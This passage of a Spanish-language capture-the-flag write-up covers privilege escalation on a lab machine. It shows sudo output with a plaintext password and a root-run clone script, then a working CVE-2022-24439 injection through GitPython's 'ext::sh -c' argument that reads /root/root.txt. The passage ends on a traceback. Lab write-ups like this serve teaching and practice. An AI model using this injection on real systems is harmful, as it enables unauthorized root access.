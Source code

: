 ## Privilege Escalation

```terminal
prod@editorial:~$ sudo -l
[sudo] password for prod: 080217_Producti0n_2023!@
Matching Defaults entries for prod on editorial:
  env_reset, mail_badpass,secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User prod may run the following commands on editorial:
  (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Este usuario puede ejecutar el comando '/usr/bin/python3' y '/opt/internal_apps/clone_changes/clone_prod_change.py' con privilegios de root.

```terminal
prod@editorial:/opt/internal_apps/clone_changes$ cat clone_prod_change.py 

#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

```terminal
prod@editorial:~$ pip freeze | grep -i gitpython
GitPython==3.1.29
```

Tras analizar el código del script y la versión de GitPython instalada en el sistema, identifiqué una vulnerabilidad de ejecución remota de código (RCE).

<https://nvd.nist.gov/vuln/detail/CVE-2022-24439>

Para aprovechar esta vulnerabilidad, creé un archivo vacío llamado root.txt en el directorio /home/prod/.

```terminal
prod@editorial:~$ echo "" > root.txt
```

El siguiente comando ejecuta el script 'clone_prod_change.py', pasando un argumento que aprovecha la operación de clonación en Git. Esto permite ejecutar un comando de shell que lee el contenido del archivo '/root/root.txt' y lo escribe en '/home/prod/root.txt'. De esta manera, el usuario 'prod' puede acceder al contenido del archivo '/root/root.txt' mediante el uso de un vector de ataque basado en Git."

```terminal
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c cat% /root/root.txt% >% /home/prod/root.txt"

[sudo] password for prod: 
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
```